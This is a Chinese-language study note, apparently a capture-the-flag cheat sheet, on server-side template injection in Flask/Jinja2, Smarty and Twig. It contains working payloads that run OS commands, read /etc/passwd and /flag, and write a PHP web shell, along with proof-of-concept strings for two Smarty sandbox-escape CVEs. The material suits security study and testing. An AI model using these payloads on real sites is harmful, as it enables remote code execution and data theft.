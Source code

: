 # 引擎判断
![](attachments/Pasted%20image%2020240222134656.png)
## Python
## 内部魔术方法
| 方法                   | 描述                                                                                                                                                                                                            |
| ---------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `__class__`            | 返回对象所属的类                                                                                                                                                                                                |
| `__init__`             | 类的初始化方法                                                                                                                                                                                                  |
| `__bases__`/`__mro__`  | 返回盖类型的所有父类                                                                                                                                                                                            |
| `__subclasses__`       | 返回继承该类的所有可用子类                                                                                                                                                                                      |
| `__globals__`          | 返回当前位置所有可用的全部全局变量的字典引用                                                                                                                                                                    |
| `__dict__`             | 包含类的静态函数、类函数、普通函数、全局变量以及一些内置属性的字典                                                                                                                                              |
| `__getattribute__()`   | 存在于实例、类和函数中的_`_getattribute__`魔术方法。实际上，当针对实例化的对象进行点操作（例如：a.xxx / a.xxx()）时，都会自动调用`__getattribute__`方法。因此，我们可以通过这个方法直接访问实例、类和函数的属性 |
| `__getitem__()`        | 调用字典中的键值，实际上是调用此魔术方法。例如，`a['b']` 就是 `a.__getitem__('b')`                                                                                                                              |
| `__builtins__`         | 内建名称空间，包含一些常用的内建函数                                                                                                                                                                            |
| `__import__`           | 动态加载类和函数，也可用于导入模块。常用于导入os模块，例如`__import__('os').popen('ls').read()`                                                                                                                 |
| `__str__()`            | 返回描述该对象的字符串，通常用于打印输出                                                                                                                                                                        |
| `url_for`              | Flask框架中的一个方法，可用于获取`__builtins__`，且u`rl_for.__globals__['__builtins__']`包含current_app                                                                                                         |
| `get_flashed_messages` | Flask框架中的一个方法，可用于获取`__builtins__`，且`get_flashed_messages.__globals__['__builtins__']`包含current_app                                                                                            |
| `lipsum`               | Flask框架中的一个方法，可用于获取`__builtins__`，且`lipsum.__globals__`包含os模块（例如：`{{lipsum.__globals__['os'].popen('ls').read()}}`）                                                                    |
| `current_app`          | 应用上下文的全局变量                                                                                                                                                                                            |
| `request`              | 用于获取绕过字符串的参数                                                                                                                                                                                        |
| `config`               | 当前应用的所有配置。还可以使用`{{ config.__class__.__init__.__globals__['os'].popen('ls').read() }}`来执行操作系统命令                                                                                          |
| `g`                       | 通过`{{ g }}`可以获取`<flask.g of 'flask_ssti'>`                                                                                                                                                                                                                |
### Jinja2


## PHP
### Smarty
- **{$smarty.version}**  返回版本信息
- **${smarty.template}**  返回当前模板的文件名

#### {literal} 标签
{literal} 可以让一个模板区域的字符原样输出
在 PHP5 环境下存在一种 PHP 标签， `<scriptlanguage="php"></script>`，我们可以利用这一标签进行任意的 PHP 代码执行

#### {if} 标签
Smarty 的 {if} 条件判断和 PHP 的 if 非常相似，只是增加了一些特性。每个 {if} 必须有一个配对的 {/if}，也可以使用 {else} 和 {elseif} ，全部的PHP条件表达式和函数都可以在 {if} 标签中使用

```php
{if phpinfo()}{/if}
{if readfile ('/flag')}{/if}
{if show_source('/flag')}{/if}
{if system('cat /flag')}{/if}
```

#### {php} 标签
Smarty3 官方手册中明确表示已经废弃 {php} 标签，不建议使用。在 Smarty3.1， {php} 仅在 SmartyBC 中可用

#### 获取类的静态方法
`{self::getStreamVariable("file:///etc/passwd")}`
不过这种利用方式只存在于旧版本中，而且在 3.1.30 的 Smarty 版本中官方已经将 getStreamVariable 静态方法删除。

```php
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
// 在高版本下同样不能使用
```

#### CVE-2021-26120
SmartyInternalRuntime_TplFunction 沙箱逃逸漏洞
poc
```text
string:{function+name='rce(){};system("id");function+'}{/function}
```

只要将前后闭合，将我们要执行的代码插入到闭合两端的中间就可以借助缓存文件执行

![](attachments/Pasted%20image%2020240222135714.png)

#### CVE-2021-26119
Smarty template_object 沙箱逃逸 PHP 代码注入漏洞
poc 
```text
string:{$s=$smarty.template_object->smarty}{$fp=$smarty.template_object->compiled->filepath}{Smarty_Internal_Runtime_WriteFile::writeFile($fp,"<?php+phpinfo();",$s)}
```

### Twig
- `{{_self}}`  指向当前应用
- `{{_self.env}}` 
- `{{dump(app)}}`
- `{{app.request.server.all|join(',')}}`

# 参考文章
[一文了解SSTI和所有常见payload 以flask模板为例-腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/2130787)
[【网络安全 | 1.5w字总结】SSTI漏洞入门，这一篇就够了。-CSDN博客](https://blog.csdn.net/2301_77485708/article/details/132467976)
[以Twig模板为例浅学一手SSTI - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/314028.html)
[Smarty 模板注入与沙箱逃逸 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/501811049)